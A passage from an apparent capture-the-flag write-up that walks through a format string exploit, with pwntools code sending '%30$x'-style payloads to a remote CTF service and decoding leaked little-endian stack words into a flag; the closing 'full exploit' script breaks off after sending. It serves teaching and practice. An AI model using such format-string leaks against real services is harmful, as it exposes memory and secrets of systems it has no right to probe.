 ```python
payload = b''
for idx in range(30, 37):
    payload += f'%{idx}$x '.encode()
```

This code cycles from `idx=30` to `idx=36` (because `range` doesn't include the last number). It then uses a format string to put the index in the right place (e.g. `%30$x`). Because format strings aren't supported in byte strings, we have to use `.encode()` to convert the string to bytes. Then, we append it to our payload.

Next, we send off the payload and receive the data:

```python
p.sendline(payload)
data = p.recvline().strip()
```

Now, we need to process the data. Let's do this one step at a time

*   We know the data is in word-sized chunks, delimited by spaces.

    ```python
    data_arr = data.split(b' ')
    ```
*   The chunks represent four bytes, meaning that for each two-character chunk, we need to convert this to a byte.

    ```python
    data_bytes = [binascii.unhexlify(i) for i in data_arr]
    ```
*   Each chunk is in little-endian, meaning once we have the bytes, we need to reverse them.

    ```python
    data_rev = [i[::-1].decode() for i in data_bytes]
    print(''.join(data_rev))
    ```

This will print our flag! We can do this entire process in one big step:

```python
for item in res.split(b' '):
    print(binascii.unhexlify(item)[::-1].decode(), end='')
```

Let's think about it:

* For each item in the split data (i.e. `data_arr`), it's using `binascii.unhexlify` to convert the data from a hex to a byte string.
* From there, we are reversing the data (i.e. `[::-1]`) and converting it to a string (i.e. `.decode()`).
* Finally, we are printing the data without a newline (i.e. `end=''`). This way, we don't even have to store the data and then worry about using `''.join()`.

Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *
import binascii

elf = context.binary = ELF('./chase')
p = remote('vunrotc.cole-ellis.com', 3300)

payload = b''
for i in range(30, 37):
    payload += f'%{i}$x '.encode()

p.clean()
p.sendline(payload)

```